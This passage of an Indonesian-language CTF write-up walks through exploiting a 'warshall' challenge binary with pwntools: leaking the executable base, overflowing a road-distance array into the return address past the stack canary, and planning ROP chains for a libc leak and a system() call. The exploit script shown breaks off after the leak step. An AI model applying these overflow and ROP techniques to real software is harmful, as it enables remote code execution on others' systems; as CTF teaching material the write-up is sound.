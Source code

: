 ```python
l +=  struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

l = int(l, 16)
exec_base = l - 0x96b
print "EXEC BASE LEAK"
print hex(exec_base)
```

![Error](/assets/images/CJFinal-1.png)

### Menulis ROP Chain
Fungsi "Build direct road" memberi kita cara untuk menulis nilai kedalam array panjang jalan. Karena kita bisa mendapatkan overflow ke _return address_ (tanpa kena stack canary), kita dapat menulis nilai yang kita inginkan kedalamnya.

Kita memerlukan 2 ropchain, satu untuk leak libc dan satu lagi untuk panggil fungsi _system_ dan mendapatkan RCE.

Catatan: Dari pengalaman saya, sejak libc 2.27, parameter kedua dari fungsi _system_ harus diset menjadi NULL agar dapat panggil fungsi _system_ tanpa _segmentation fault_. Makanya ada beberapa angka nol yang diselipkan kedalam ropchain.

Berikut exploit lengkap saya:

```python


from pwn import *
import string
import random

p = process('./warshall')

def create_city(name):
  p.sendlineafter('>', '1')
  p.sendlineafter('name:', name)

def build_road(city1, city2, distance):
  p.sendlineafter('>', '2')
  p.sendlineafter('1:', city1)
  p.sendlineafter('2:', city2)
  p.sendlineafter('):', distance)

def short_path(city1, city2):
  p.sendlineafter('>', '3')
  p.sendlineafter('1:', city1)
  p.sendlineafter('2:', city2)

def end():
  p.sendlineafter('>', '4')

list_names = []
for i in range(100):
  list_names.append(''.join([random.choice(string.ascii_lowercase) for j in range(10)]))
  create_city(list_names[i])

# Overflow
create_city('pwner')


## EXEC LEAK
short_path('pwner', list_names[51])
```
